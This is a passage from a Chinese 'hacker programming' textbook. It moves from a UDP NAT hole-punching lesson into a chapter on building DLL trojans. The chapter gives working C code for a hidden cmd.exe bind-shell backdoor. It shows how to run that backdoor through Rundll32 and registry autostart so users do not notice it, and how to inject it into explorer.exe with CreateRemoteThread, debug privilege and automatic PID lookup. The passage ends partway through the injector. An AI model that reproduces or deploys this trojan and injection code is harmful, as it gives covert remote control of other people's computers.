// 根据 IP 序号得到最佳 IP 地址
DWORD RetrieveByIndex(DWORD index)
{
    PMIB_IPADDRTABLE pAddrTable(NULL);
    PMIB_IPADDRROW pAddrRow(NULL);
    ULONG uSize(0);
    DWORD ret = INVALID_ADDRESS;
    char *pBuffer = NULL;

    // 得到 IP 列表的大小，分配存储缓冲区
    GetIpAddrTable((PMIB_IPADDRTABLE)(char *)pBuffer, &uSize, TRUE);
    pBuffer = new char[uSize];
    if (!pBuffer) return INVALID_ADDRESS;

    // 得到 IP 列表
    DWORD dwResult = GetIpAddrTable((PMIB_IPADDRTABLE)(char *)pBuffer, &uSize, TRUE);
    if (dwResult == NO_ERROR)
    {
        pAddrTable = (PMIB_IPADDRTABLE)(char *)pBuffer;
        // 得到指定序号的 IP 地址
        for (DWORD x = 0; x < pAddrTable->dwNumEntries; x++)
        {
            pAddrRow = (PMIB_IPADDRROW)&(pAddrTable->table[x]);
            if (pAddrRow->dwIndex == index)
            {
                ret = pAddrRow->dwAddr;
                delete [] pBuffer;
                return ret;
            }
        }
    }

    delete [] pBuffer;
    return INVALID_ADDRESS;
}
```

定义了 message 的 ID 和开启的端口后，就可以对发送给服务端的数据进行填充。

```cpp
#define MESSAGEHOLE 0x01  // 定义 message 的 ID
#define PORT        830   // 定义端口

HOLE infor;
infor.messageID = MESSAGEHOLE;
strcpy(infor.name, "ww0830");
infor.addrIn = best;
infor.portIn = PORT;

// 然后发送给服务端，就是一般的 UDP 传送数据了
sockfd = socket(AF_INET, SOCK_DGRAM, IPPROTO_UDP);
sendto(sockfd, infor, sizeof(infor), 0, (sockaddr*)&servaddr, sizeof(servaddr));
```

> “在服务端，首先判断是否是注册 message，不是就丢弃掉；如果是，就分析连接自己的 sockaddr，提取出该机器的外网 IP 和端口。”

```cpp
// 接收数据
int n = recvfrom(sockfd, mesg, 1024, 0, (sockaddr *)&cliaddr, &len);
mesg[n] = '\0';

HOLE* info = (HOLE*)mesg;

// 判断是否是注册消息
if (info->messageID != MESSAGEHOLE)
{
    // 如果不是，不处理
    continue;
}

// 如果是，就分析外网 IP 地址和端口
info->portEx = cliaddr.sin_port;
info->addrEx = cliaddr.sin_addr.s_addr;
```

> “当得到的外网 IP 和端口后，服务器或者保存，或者回复给该机。当各客户端之间要建立连接时，就使用该外网的 IP 和端口，就可以建立直接连接了。从而实现利用 UDP 穿透 NAT。”

> “因为 NAT 在 UDP 包没有发送一段时间后，就会关闭，所以为了让 NAT 保持该端口的开放，就要周期性地发送 UDP 保持 NAT HOLE 的开启。所以这是个待改进的地方，大家仔细钻研下去，完全有可能提出更好的解决方案。”

> “好了，本堂课就上到这儿，闪人！大家回去多做练习！”

# 第五章 DLL 木马编程进阶

老师一走进教室，就满意地说道：“从我们首次网络课堂算起，半个学期已无声无息地过去了，在这段时间中，大家的技术提高了吗？还保持着旺盛的斗志和为了目标不屈奋斗的精神吗？如果是，那么恭喜你！如果不是，那么也没关系，注意好好把握，未来还很长，机会却有限，只有随时做好准备，才能抓得住瞬间即逝的机会！”

“在前面的基础讲解后，我们继续要把技术深入下去，按计划，这次就进入 DLL 木马的编写！”

## 5.1 DLL 简介

我们要编写 DLL 木马，当然就要知道“DLL”是什么意思。DLL 的全称是 Dynamic Link Library，即动态链接程序库。其对应立即静态链接。

DOS 时代，程序员们把很多常用的代码集合放进一个独立的文件里，并把这个文件称为“库”（Library）。在写程序的时候，把这个库文件加入编译器，就能使用这个库包含的所有功能而不必自己再去写一大堆代码。比如常用的 printf() 函数就在 stdio.h 中，只有把 stdio.h 文件 include 进去后，才能在程序中使用 printf() 函数。这个技术被称为“静态链接”（Static Link）。但这样会把库里所有的东西都包含进去，不管我们使不使用。

后来，Windows 系统出现了，它使用了一种新的被称为“动态链接”（Dynamic Link）的技术，可以只选择加载我们想用的东西，DLL 的名字就是这样来的。

DLL 的格式和 EXE 文件是一样的，但不能直接执行，它把代码封装在自己内部，只提供函数接口让外面的 EXE 程序调用。DLL 导出的函数在 DLL 导出表中，DLL 的作者会通过文档让其他人知道导出函数的完成功能、参数格式、返回值等信息，便于其他程序员使用自己实现的函数，如果他不想公开一些函数，简单地不在文档中提及就可以了，但这样难不倒真正感兴趣的人。比如 Windows 就有很多未公开的 DLL 导出函数，牛人们利用查看导出表和反编译的手段，得到了很多 Windows 的未公开但很有用的导出函数，《Undocumented Windows API》就是一本经典书籍，全是微软未公开的函数，被系统研究者们奉为圣经！

因为 DLL 文件本身并不可以运行，需要应用程序调用，加载的是到应用程序的内存中，所以运行 DLL 函数的时候，不会看到 DLL 的进程，而且 DLL 文件在使用，又无法删除，所以对隐蔽性、抗删除性有特殊要求的木马有很大的吸引力。DLL 木马逐渐成为现在主流的木马编写方式。

老师说道：“这堂课我们由浅入深地谈论下 DLL 木马，首先看看普通 DLL 程序的编写和使用，然后在 DLL 中加入我们的木马代码并测试，最后讨论现实中真正的 DLL 木马的启动方法和实现！”

## 5.2 普通 DLL 程序的编写

首先举个实际的例子，使用 VC 实现一个普通的 DLL 程序。

如何使用 VC 编写程序的问题就不再讨论了，大家可以复习下前几节课的内容，里面对 VC 的本质和编程的技巧都有详细的介绍，这里我们只讨论 DLL 的编程。


图5.1

把工程命名为 DllTest。在选择生成 DLL 的代码时，选择 A simple DLL Project，如图5.2。


图5.2

再点“Finish”，VC 就会自动生成一个含有简单代码的 DLL 工程，如图5.3。


图5.3

从图中可以看到，生成的代码只有一个 DllMain 函数。该函数是 DLL 程序的入口点，是一个 DLL 程序所必备的。就如同 EXE 程序没有 main 函数编译器会报找不到 main 函数一样，DLL 程序没有 DllMain 函数，编译器也会报找不到 DllMain 函数的错误。

此时，如果直接点 F7（生成 dllTest.dll），我们就会在不写一行代码的前提下，在 Debug 目录下生成一个 dllTest.dll。首个 DLL 就这样生成了，是不是很简单？

好了，虽然生成了 DLL，但什么功能都没有实现，只是一个空架子，接着我们在 DLL 中加上我们的代码，实现函数，并把函数导出，供 EXE 程序调用和测试。

在 DllMain 函数中加入 `MessageBox(NULL, "This is in test Dll", "OK", MB_OK);`，可以在进入这个入口函数时弹出对话框，让我们看到效果。

然后编写很简单的三个函数 `int TestExport()`、`int TestIn()`、`int TestDef()`，它们的功能都非常简单，都是直接返回整数，返回值分别为 1、2、3。

从函数名就可以看出来，是用它们来测试 DLL 的导出情况。

其中，对 `TestExport()` 函数，定义加上 `__declspec(dllexport)` 关键字，用该关键字直接告诉编译器该函数是导出函数；对 `TestDef()` 函数，在工程中新建一个后缀名为 DEF 的任意名文件，我用的是 EXPORT.DEF，在 EXPORT.DEF 中加上：

```def
LIBRARY dllTest
EXPORTS
    TestDef @1
```

表明 DLL 要引出 `TestDef` 这个函数。而最后对于 `TestIn()` 函数，则什么都不做。后面将看到外部 EXE 程序无法调用这个 `TestIn()`。合起来，编写的结果如图5.4。


此时按 F7，就会在 Debug 文件夹下生成 dllTest.dll 和 dllTest.lib 文件，如图5.5。


我们用 VC 自带的工具 Depends 分析 dllTest.dll，可以看到分析结果如图5.6。Depends 看到了 dllTest.dll 拥有两个导出函数 `TestDef` 和 `TestExport`，而没有定义导出的 `TestIn` 函数则看不见。


图5.6

通过这个例子，大家知道了 DLL 的编写和实现导出函数的方法。我们接着写一个 EXE 测试程序，用于调用 DLL 所导出的函数，验证 DLL 的功能。

用 VC 生成一个 Win32 Application 工程，命名为 ExcuteDllTest，这里同样选择生成简单的代码后点“Finish”，VC 就会帮我们生成 Win32 程序的框架代码。

在程序里，先加入 `#pragma comment(lib,"dllTest")`，表示使用 dllTest.dll 中的导出函数，然后定义 `int TestDef();` 和 `int TestExport();` 两个函数的原型，接着在 WinMain 函数中加上对函数的调用和测试。

```c
int result = TestDef();
strDisplay[0] = '0' + result;
MessageBox(NULL, strDisplay, "Answer", MB_OK);
```

这几段代码的意思是得到 `TestDef()` 函数的返回值，然后弹出对话框打印出来，我们就可以观察得到的值是否正确，同样对 `TestExport()` 函数也一样处理。

```c
result = TestExport();
strDisplay[0] = '0' + result;
strDisplay[1] = '\0';
MessageBox(NULL, strDisplay, "Answer", MB_OK);
```

具体代码参看 ExcuteDllTest 工程。我们把 dllTest.dll 和 dllTest.lib 两个文件拷贝到 ExcuteDllTest 同一目录中，Ctrl+F5 运行程序，可以看到结果如下。首先弹出 DllMain 中的对话框，如图5.7。

接着弹出 `TestDef()` 返回的值，的确为 3，如图5.8。

然后弹出 `TestExport()` 返回的值，的确为 1，如图5.9。


图5.7

图5.8

图5.9

这样测试 DLL 函数的目的就基本达到了，但有点令人惊奇的是，最后又再次弹出了首次在 DllMain 中实现的对话框。

这是怎么回事呢？原来无论 DLL 加载和卸载的时候，都会进入到 DllMain 函数中，所以加载 DLL 时调用了一次，卸载 DLL 时又调用了一次，对话框也就弹出了两次。

改进的办法是通过参数 `DWORD ul_reason_for_call` 来加以区分。我们只要加几句判断代码就可以了。只当 `ul_reason_for_call` 为 `DLL_PROCESS_ATTACH` 时，才弹出对话框，这样就可以只在加载时执行一次了。

```c
BOOL APIENTRY DllMain(HANDLE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
        case DLL_PROCESS_ATTACH:
        {
            // 获取当前进程ID
            MessageBox(NULL, "This is in test Dll", "OK", MB_OK);
        }
        default:
            return TRUE;
    }
    return TRUE;
}
```

再深入一点，如果我们尝试调用 `TestIn()` 这个 DLL 并没有导出的函数，会是怎样的效果呢？测试一下，在测试程序中加上定义 `int TestIn()`，然后使用 `result = TestIn();`，这时在 Link 的时候会报如下的错误：

```text
Linking...
ExcuteDllTest.obj : error LNK2001: unresolved external symbol "int __cdecl TestIn(void)" (?TestIn@@YAHXZ)
Debug/ExcuteDllTest.exe : fatal error LNK1120: 1 unresolved externals
Error executing link.exe.
```

意思是找不到函数 `TestIn` 的符号，就是说找不到函数的实现体。这就证实了在 DLL 中没有导出的函数，在外部是看不到，也调用不了的。

“好了，从这个小而全的例子可以看出，编写 DLL 只是编写导出函数的程序而已，而各个导出函数的编写，和一般 EXE 程序没什么两样。”老师总结道，“在例子中，导出函数的功能只是简单地返回了一个整数，如果我们把导出函数的功能换成木马的功能，那么就是编写 DLL 木马了！”

## 5.3 首个 DLL 木马

说道木马的编写，就不得不提到前面我们讲的后门编写了。我们详细地讨论了普通木马的编写、功能的改进、木马功能模板的打造以及木马的各种启动方法。有了那些作为基础，那么在 DLL 中加入木马功能，使其成为一个 DLL 木马就不是太困难的事情了。

我们用那篇专题中讲过的双管道 telnet 后门代码来编写 DLL 木马。步骤如下：新建一个 Win32 DLL 工程。在 DLL 的主文件中声明 `__declspec(dllexport) int cmdpipe2();`，表示导出 `cmdpipe2()` 函数，然后编写 `cmdpipe2()` 函数，内容为 telnet 后门的代码，结果如下。

```c
__declspec(dllexport) int cmdpipe2()
{
    WSADATA ws;
``````c
SOCKET listenFD;
char Buff[1024];
int ret;
// 初始化 WSA
WSAStartup(MAKEWORD(2,2), &ws);
// 建立 socket
listenFD = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
// 监听本机 830 端口
struct sockaddr_in server;
server.sin_family = AF_INET;
server.sin_port = htons(830);
server.sin_addr.s_addr = ADDR_ANY;
ret = bind(listenFD, (sockaddr *)&server, sizeof(server));
ret = listen(listenFD, 2);
// 如果客户请求 830 端口，接受连接
int iAddrSize = sizeof(server);
SOCKET clientFD = accept(listenFD, (sockaddr *)&server, &iAddrSize);
SECURITY_ATTRIBUTES pipeattr1, pipeattr2;
HANDLE hReadPipe1, hWritePipe1, hReadPipe2, hWritePipe2;
// 建立匿名管道 1
pipeattr1.nLength = 12;
pipeattr1.lpSecurityDescriptor = 0;
pipeattr1.bInheritHandle = true;
CreatePipe(&hReadPipe1, &hWritePipe1, &pipeattr1, 0);
// 建立匿名管道 2
pipeattr2.nLength = 12;
pipeattr2.lpSecurityDescriptor = 0;
pipeattr2.bInheritHandle = true;
CreatePipe(&hReadPipe2, &hWritePipe2, &pipeattr2, 0);
STARTUPINFO si;
ZeroMemory(&si, sizeof(si));
si.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;
si.wShowWindow = SW_HIDE;
si.hStdInput = hReadPipe2;
si.hStdOutput = si.hStdError = hWritePipe1;
char cmdLine[] = "cmd";
PROCESS_INFORMATION ProcessInformation;
// 建立进程
ret = CreateProcess(NULL, cmdLine, NULL, NULL, 1, 0, NULL, NULL, &si, &ProcessInformation);

/*
解释一下，这段代码创建了一个 cmd.exe。
把 cmd.exe 的标准输出和标准错误输出用第一个管道的写句柄替换，
cmd.exe 的标准输入用第二个管道的读句柄替换。
如下：
(远程主机)<-- 输入 <-- 管道1输出 <-- 管道1输入 <-- 输出(cmd.exe 子进程)
(远程主机)--> 输出 --> 管道2输入 --> 管道2输出 --> 输入(cmd.exe 子进程)
*/

unsigned long lBytesRead;
```

# 黑客编程入门

```c
while(1)
{
    // 检查管道 1，即 cmd 进程是否有输出
    ret = PeekNamedPipe(hReadPipe1, Buff, 1024, &lBytesRead, 0, 0);
    if(lBytesRead)
    {
        // 管道 1 有输出，读出结果发送远程客户机
        ret = ReadFile(hReadPipe1, Buff, lBytesRead, &lBytesRead, 0);
        if(!ret) break;
        ret = send(clientFD, Buff, lBytesRead, 0);
        if(ret <= 0) break;
    }
    else
    {
        // 否则，接收远程客户机的命令
        lBytesRead = recv(clientFD, Buff, 1024, 0);
        if(lBytesRead <= 0) break;
        // 将命令写入管道 2，即传给 cmd 进程
        ret = WriteFile(hWritePipe2, Buff, lBytesRead, &lBytesRead, 0);
        if(!ret) break;
    }
}
return 0;


```

该后门代码的功能是监听本机的 830 端口，如果有客户连接，就给对方一个 DOS Shell。该代码的分析及改进成为单管道、零管道等问题，请参看前面的章节。在 VC 中按 F7，生成一个 DLL，该 DLL 可不是我们自己编写的 DLL 木马哦！

测试一下这个 DLL 木马。建立一个名为 ExecuteDllTest 的 Win32 测试应用程序，把刚才生成的 DLL 和 LIB 文件拷贝到该工程的同一目录下。在测试程序的头部，加上 `#pragma comment(lib,"dllTest")`，和 `int cmdpipe2();` 函数的声明；而在测试程序的主函数 WinMain 中，只有一句话，就是执行 `cmdpipe2()`，如图 5.10。
按 Ctrl+F5 执行，在 cmd 控制台下输入 `netstat -an`，可以看到，果然本机打开了 830 端口，如图 5.11。输入 `Telnet 127.0.0.1 830`，得到了一个 DOS Shell，可以执行任意 DOS 命令，测试成功！和以前的程序对比，可以发现 EXE 木马和 DLL 木马功能并没什么两样，如图 5.12。

我们打开 Windows 任务管理器，找不到 dllTest 这个 DLL 进程的身影。只能看到测试程序 ExecuteDllTest 的进程，这就是 DLL 木马的特性——不会有自己的进程，只有调用程序的进程。这一点是我们实现 DLL 木马各种隐藏方法的基础，如图 5.13。
图 5.11
图 5.12
图 5.13

## 5.4 DLL木马模板

在进一步探讨 DLL 木马的高级隐藏前，还是参照前面的课程，把木马的功能进一步完善，并把编写的格式规范，成为一个 DLL 木马的模板。以后就可以在这个模板的基础上，轻松地扩展功能。

在 DLL 木马中添加一个导出函数 `__declspec(dllexport) int door()`，在这个函数中，加入木马模板代码，具体参照附件中的程序。重新生成 DLL，在测试程序中声明和执行 `door()` 函数，再次执行成功，如图 5.14。

# 黑客编程入门
图 5.14

这样我们的 DLL 木马的功能算是“什么刀枪跟棍棒我都耍得有模有样，快使用双节棍哼哼哈兮，快使用双节棍哼哼哈兮”了，并且隐藏了 DLL 本身的进程。如果我们把测试程序 ExecuteDllTest 加入到 Windows 系统的启动项中（在前面也有详细的分析，并提供了几十种自启动的方法和编程实现），那么每次系统启动就自动执行 DLL 木马的功能，一个初步完善的 DLL 木马就完工了。

这种方法虽然没有 DLL 的进程，也却有 ExecuteDllTest.exe 这个宿主程序的进程。有经验的用户可以轻松发现并直接 Kill 掉，DLL 木马也就跟着挂掉了。所以我们要对 DLL 木马的启动作进一步有特色的发展，充分发挥 DLL 木马的优越性！

## 5.5 利用 Rundll32 启动 DLL

刚才可以看到，虽然没有了 DLL 的进程，但我们的测试程序——也就是 DLL 的宿主程序 ExecuteDllTest.exe 仍然是一个很显眼的 exe 进程，虽然我们可以将其改名，比如改成 svch0st.exe、IEXPLORER 等和系统程序近似的名称以期望骗过用户，但毕竟太不安全了，可以用真正的系统程序来执行 DLL 的导出函数吗？

答案是可以的，方法就是利用 Rundll32.exe 程序。

从名称就可以看出，Rundll32.exe 的作用为执行 32 位的 DLL 文件，也就是说，它可以执行 32 位 DLL 文件的导出函数。如果利用它来执行我们的 DLL 木马，进程中就只会看见 Rundll32.exe，不会看见它在执行哪个 DLL、哪个函数。因为 Rundll32.exe 是系统本身的程序，一般人又不知道它在执行什么，所以该方法带有很大的隐藏性。

具体如何使用呢？在命令行下的使用方法为：**Rundll32.exe DLLname,Functionname [Arguments]**。

其中，DLLname 为需要执行的 DLL 文件名，Functionname 为 DLL 文件的导出函数，[Arguments] 为导出函数的具体参数，可以为空。

```c
Rundll32.exe dllTest.dll,cmdpipe2


```

对于前面我们自己编写的 DLL 木马程序，如果要调用 cmdpipe2 函数，则应该执行：Rundll32.exe dllTest.dll,cmdpipe2。

在 DOS 控制台下进入 DLL 所在的目录，输入命令测试，效果如图 5.15。
图 5.15

接着可以发现果然打开了 830 端口，测试成功！

如果要利用该方法启动 DLL 木马，我们可以在注册表启动项加入“Rundll32.exe dll 名称，函数”，这样计算机就会在启动时执行我们 DLL 木马里面的相关功能函数了。而用户能查看到的，只是 Rundll32.exe 这个进程，一般的用户是不敢轻举妄动的，这样木马的安全性大大提升。

至于如何编程实现在注册表启动项中添加东西，请参看前面课程中介绍的方法。根据那篇专题，读者应该可以自己轻松地实现。著名（或者说臭名昭著）的“3721”也是用 Rundll32.exe 方法启动自身的，如果中了 3721，可以在启动项 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\Current Version\Run` 中看见 CnsMin 一项，其键值是“Rundll32.exe C:\WINNTDOWN\LO~1\CnsMin.dll, Rundll32”，不用我说，大家也应该知道了，CnsMin.dll 就是 3721 的 DLL，它用这种方法来实现开机自动执行（本来安了 3721 也没什么问题，但它的一些防删除机制，使得我们使用调试器 attach 程序时，它的一些驱动模块会产生干扰，而且导致其他应用程序的模块加载地址不同的问题，才令很多人郁闷＋反感＋删除的）。

## 5.6 DLL远程注入

刚才使用 Rundll32 启动的方法很巧妙，也不是那么容易被发现，但终究有个新的 Rundll32.exe 进程，比较显眼。如果能在系统非常常见，甚至非使用不可的 explorer.exe 或者 IEXPLORE.EXE 进程中调用我们的 DLL 代码，那岂不是更具有隐蔽性了？但如何在别的进程中调用我们的 DLL 呢？

Windows 系统中，每个进程都有自己的私有内存空间，理论上，别的进程是不允许对这个私人领地进行操作的。

但是，实际上我们可以利用一些方法进入并操作其他进程的私有内存，将自己的代码嵌入在正在运行的进程中。方法有多种，在这里，我们使用“远程线程”技术，在一个正常系统进程中调用我们的 DLL 木马。

### 5.6.1 DLL木马的基本注入

DLL 木马我们已经有了，现在写一个程序进行注入，程序如下：

```c
int APIENTRY WinMain(HINSTANCE hInstance,
                     HINSTANCE hPrevInstance,
                     LPSTR     lpCmdLine,
                     int       nCmdShow)
{
    if (InjectDll("c:\\dllTest.dll", 1884))
    {
        printf("Inject OK!\n");
    }
    else
    {
        printf("Inject Fail!\n");
    }
    return 0;
}


```

看起来很简单吧，InjectDll 函数是完成功能的最主要部分，第一个参数是 DLL 木马的绝对路径；第二个参数是要注入进程的 PID 号，可以通过 Ctrl+Alt+Del 调出 Windows 任务管理器看到，如图 5.16，是 1884。

每次启动，explorer 的 pid 号都是不同的，这就需要手工修改源程序来完成执行。这一点我们在后面会加以改进，让程序自动寻找注入进程，不用人工指定 PID 号。

# 黑客编程入门
图 5.16

注入首先需要把用户权限提升到 Debug 权限，EnableDebugPriv 函数如下，是很有用的一个模板函数。

```c
int EnableDebugPriv(const char * name)
{
    HANDLE hToken;
    TOKEN_PRIVILEGES tp;
    LUID luid;
    // 打开进程令牌环
    if(!OpenProcessToken(GetCurrentProcess(),
            TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY,
            &hToken))
    {
        printf("OpenProcessToken error.\n");
        return 1;
    }

    // 获得进程本地唯一 ID
    if(!LookupPrivilegeValue(NULL, name, &luid))
    {
        printf("LookupPrivilege error!\n");
    }
    tp.PrivilegeCount = 1;
    tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    tp.Privileges[0].Luid = luid;
    // 调整权限
    if(!AdjustTokenPrivileges(hToken, 0, &tp, sizeof(TOKEN_PRIVILEGES), NULL, NULL))
    {
        printf("AdjustTokenPrivileges error!\n");
        return 1;
    }
    return 0;
}
```

接下来就是真正完成功能的 InjectDll 函数了。

## DLL木马编程进阶

```c
BOOL InjectDll(const char *DllFullPath, const DWORD dwRemoteProcessId)
{
    HANDLE hRemoteProcess;
    // 调整权限
    if(EnableDebugPriv(SE_DEBUG_NAME))
    {
        printf("add privilege error");
        return FALSE;
    }

    // 打开远程线程，利用输入的 PID 参数
    if ((hRemoteProcess = OpenProcess(
        PROCESS_CREATE_THREAD | // 允许远程创建线程
        PROCESS_VM_OPERATION |  // 允许远程 VM 操作
        PROCESS_VM_WRITE,       // 允许远程 VM 写
        FALSE, dwRemoteProcessId)) == NULL)
    {
        printf("OpenProcess error!\n");
        return FALSE;
    }

    char *pszLibFileRemote;
    // 使用 VirtualAllocEx 函数在远程进程的内存地址空间分配 DLL 文件名缓冲区
    pszLibFileRemote = (char *)VirtualAllocEx(hRemoteProcess, NULL, strlen(DllFullPath) + 1,
        MEM_COMMIT, PAGE_READWRITE);
    if (pszLibFileRemote == NULL)
    {
        printf("VirtualAllocEx error!\n");
        return FALSE;
    }

    // 使用 WriteProcessMemory 函数将 DLL 的路径名复制到远程进程的内存空间
    if (WriteProcessMemory(hRemoteProcess,
        pszLibFileRemote, (void *)DllFullPath, strlen(DllFullPath) + 1, NULL) == 0)
    {
        printf("WriteProcessMemory error!\n");
        return FALSE;
    }

    // 计算 LoadLibraryA 的入口地址
    PTHREAD_START_ROUTINE pfnStartAddr = (PTHREAD_START_ROUTINE)
        GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryA");
    if(pfnStartAddr == NULL)
    {
        printf("GetProcAddress error!\n");
        return FALSE;
    }

    // OK，万事俱备，我们通过建立远程线程时的地址 pfnStartAddr（实际上就是 LoadLibraryA 的入口地址），
    // 和传递的参数 pszLibFileRemote（实际上是我们复制过去的木马 DLL 的全路径文件名），
    // 在远程进程内启动我们的木马 DLL。
    // 启动远程线程 LoadLibraryA，通过远程线程调用用户的 DLL 文件
}
```

# 黑客编程入门

```c
HANDLE hRemoteThread;
if ((hRemoteThread = CreateRemoteThread(hRemoteProcess, NULL, 0,
        pfnStartAddr, pszLibFileRemote, 0, NULL)) == NULL)
{
    printf("CreateRemoteThread error!\n");
    return FALSE;
}

return TRUE;
```

程序这么多，但透过现象看本质，就是让别的进程（这里是“explorer.exe”）执行 **LoadLibrary("muma.dll")**，这样它在 **LoadLibrary()** 时就会执行 DLL 木马中 **DllMain()** 里的内容，完成“借兵”执行 DLL 木马的目的。

因为通过 **LoadLibrary** 只能执行 **DllMain()** 里面的代码，所以稍微更改一下我们的 DLL——在 **DllMain()** 中调用我们的木马函数 **door()**。

```c
BOOL APIENTRY DllMain(HANDLE hModule,
                      DWORD  ul_reason_for_call,
                      LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
        case DLL_PROCESS_ATTACH:
        {
            MessageBox(NULL,"In the Dll","OK", MB_OK);
            door();
        }
        default:
            return TRUE;
    }
    return TRUE;
}
```

为了让效果可视化，还是先用 **MessageBox()** 弹出一个对话框，然后调用 **door()**。具体程序请参看 dllMainMuma。我们将其编译链接，生成 DLL 后，改名为 dllTest.dll，拷贝到 C 盘根目录下，当然了，需要看看本机的 explorer.exe 进程的 PID 号，在 InjectDll 中作相应的更改，最后测试运行。

最激动人心的地方出现了，DllMain 中的对话框成功弹出！说明成功地运行了我们的 DLL 木马，而且因为使用 explorer.exe 进程，所以没有任何其他新增的进程出现！注入成功！

这一注入，非同小可，攻击力九九九，对方魔法回复率百分之百，外加伤害加倍防御不能！机子当时就“激动”得几乎完全失去了响应，非要在任务管理器下杀掉 explorer.exe 进程后重新运行 explorer.exe 才恢复正常，这是怎么回事呢？

原来，注入 explorer.exe 成功，进入 DllMain 弹出对话框后，会接着执行 **door()** 函数。而这个后门函数是异步性的，就是必须有了相应的响应并退出后才会往下执行，这样整个 explorer.exe 都被阻塞住了，而 explorer.exe 是系统必用的进程，所以整个系统的处理都被阻塞住了（是被我们写的 DLL 木马阻塞住的，很牛吧？），机器自然就没响应了。

知道了原因，那有没有办法解决呢？当然有了。我们可以把 DllMain 中的直接调用 **door()** 函数，改为建立一个后门线程，DllMain 建立后门线程后立即返回，不影响 explorer 进程的其他功能，而在后门线程中去执行 **door()**，这样系统就不会阻塞了。

### 5.6.2 木马注入的多线程改进

有了思路，我们来创建后门线程吧，这涉及到多线程编程的问题；多线程编程前面也已经讲过，对我们 user 来说，只要理解多线程编程的含义，然后使用 `CreateThread` 函数来建立多线程就 OK 了。对我们程序来说，就是把 `door()` 函数改定义为 `DWORD WINAPI door(LPVOID lpParam)`，然后在 `DllMain` 中执行 `CreateThread(NULL, NULL, door, NULL, NULL, NULL);` 建立线程。具体说来，就是：

```c
BOOL APIENTRY DllMain(HANDLE hModule,
                      DWORD  ul_reason_for_call,
                      LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
        case DLL_PROCESS_ATTACH:
        {
            MessageBox(NULL,"In the Dll","OK",MB_OK);
            // 改进线程
            //door();
            CreateThread(NULL,NULL,door,NULL,NULL,NULL);
        }
        default:
            return TRUE;
    }
    return TRUE;
}
```

完整的代码大家可以参考 `dllMainMuma2thread` 目录。我们编译程序，重新生成 DLL 木马后拷贝到 C 盘根目录，再运行注入程序，这次再点 OK 对话框，机器还是一切正常，仔细看，也没有 `injecteddll.exe` 这个进程，隐藏进程算是完美地成功了！怀着激动的心情 `telnet 830`，可爱的木马 shell 又出来了！正所谓：“一马奔腾，射雕引弓，天地都在我心中！”

### 5.6.3 自动查找进程号注入

改进完 DLL 木马本身，再看看注入程序。刚才的注入程序，使用的是 `explorer` 进程的 PID 值来进行注入。前面也说过，不同的机器，或者相同的机器在重新启动后，进程的 PID 值都会随机地改变。我们就需要人工地改写注入源程序里的 PID 值，然后重新编译，生成 exe 程序后执行。但对于一个真正的木马，如果需要在每次运行前修改源代码再运行，简直是一件不可想象的事情。所以我们一定要加以改进。我们加入一个函数，让程序自动查找 `explorer` 进程的 PID 号，然后再实现注入；调用如下。

```c
procid = getprocid("explorer.exe"); /* 得到进程PID */
InjectDll("c:\\dllTest.dll", procid);
```

而寻找 `explorer` 进程的 PID 号的 `getprocid` 函数如下。

```c
unsigned long getprocid(char *pn)
{
    BOOL b;
    HANDLE hnd;
    PROCESSENTRY32 pe;
    // 得到进程快照
    hnd = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    pe.dwSize = sizeof(pe);
    b = Process32First(hnd, &pe);
    while (b)
    {
        // 比较，如果进程名是 explorer.exe 就返回 PID 值
        if (strcmp(pn, pe.szExeFile) == 0)
            return pe.th32ProcessID;
        b = Process32Next(hnd, &pe);
    }
    return 0;
}
```

程序比较简单，也加入了原理注释。将这段代码加入到原来的那个注入程序中，得到改进后的 injectDllAutoFindExploit，它每次自动查找 explorer.exe 进程的 PID，然后再注入 DLL 木马中的内容，自动地完成所有的注入过程。程序如下：

```c
#include <tlhelp32.h>

int EnableDebugPriv(const char *name)
{
    HANDLE hToken;
    TOKEN_PRIVILEGES tp;
    LUID luid;
    // 打开进程令牌柄
    if (!OpenProcessToken(GetCurrentProcess(),
        TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY,
        &hToken))
    {
        printf("OpenProcessToken error.\n");
        return 1;
    }
    // 获得进程本地唯一 ID
    if (!LookupPrivilegeValue(NULL, name, &luid))
    {
        printf("LookupPrivilege error!\n");
    }
    tp.PrivilegeCount = 1;
    tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    tp.Privileges[0].Luid = luid;
    // 调整权限
    if (!AdjustTokenPrivileges(hToken, 0, &tp, sizeof(TOKEN_PRIVILEGES), NULL, NULL))
    {
        printf("AdjustTokenPrivileges error!\n");
        return 1;
    }
    return 0;
}

BOOL InjectDll(const char *DllFullPath, const DWORD dwRemoteProcessId)
{
    HANDLE hRemoteProcess;
    if (EnableDebugPriv(SE_DEBUG_NAME))
    {
        printf("add privilege error!");
        return FALSE;
    }

    // 打开远程线程
    if ((hRemoteProcess = OpenProcess(PROCESS_CREATE_THREAD | // 允许远程创建线程
                                      PROCESS_VM_OPERATION  | // 允许远程VM操作
                                      PROCESS_VM_WRITE,       // 允许远程VM写
                                      FALSE, dwRemoteProcessId)) == NULL)
    {
        printf("OpenProcess error!\n");
        return FALSE;
    }

    char *pszLibFileRemote;
    // 使用VirtualAllocEx函数在远程进程的内存地址空间内分配DLL文件名缓冲区
    pszLibFileRemote = (char *)VirtualAllocEx(hRemoteProcess, NULL, strlen(DllFullPath) + 1,
                                              MEM_COMMIT, PAGE_READWRITE);
    if (pszLibFileRemote == NULL)
    {
        printf("VirtualAllocEx error!\n");
        return FALSE;
    }

    // 使用WriteProcessMemory函数将DLL的路径名复制到远程进程的内存空间
    if (WriteProcessMemory(hRemoteProcess,
                           pszLibFileRemote, (void *)DllFullPath, strlen(DllFullPath) + 1, NULL) == 0)
    {
        printf("WriteProcessMemory error!\n");
        return FALSE;
    }

    // 计算LoadLibraryA的入口地址
    PTHREAD_START_ROUTINE pfnStartAddr = (PTHREAD_START_ROUTINE)
        GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryA");
